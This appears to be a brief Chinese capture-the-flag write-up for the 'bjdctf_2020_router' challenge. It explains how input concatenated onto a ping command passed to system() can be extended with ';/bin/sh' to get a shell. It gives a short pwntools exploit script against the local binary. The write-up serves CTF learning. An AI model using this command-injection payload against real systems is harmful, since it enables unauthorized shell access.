

- `pwntools`使用
- `linux`系统下命令执行

1. 关键点在`case1`的这个`system`函数执行上,`dest`中是`ping`命令
2. 我们在`system`执行函数时,加上`;`那么前后两个命令都会执行
3. 所以我们拼接`strcat`中加上`;/bin/sh`就可以得到`shell`

```python
from pwn import *
io = process('./bjdctf_2020_router')
io.sendlineafter(b'Please input u choose:',b'1')
io.sendline(';/bin/sh')
io.interactive()
```

~~实话说有点水~~
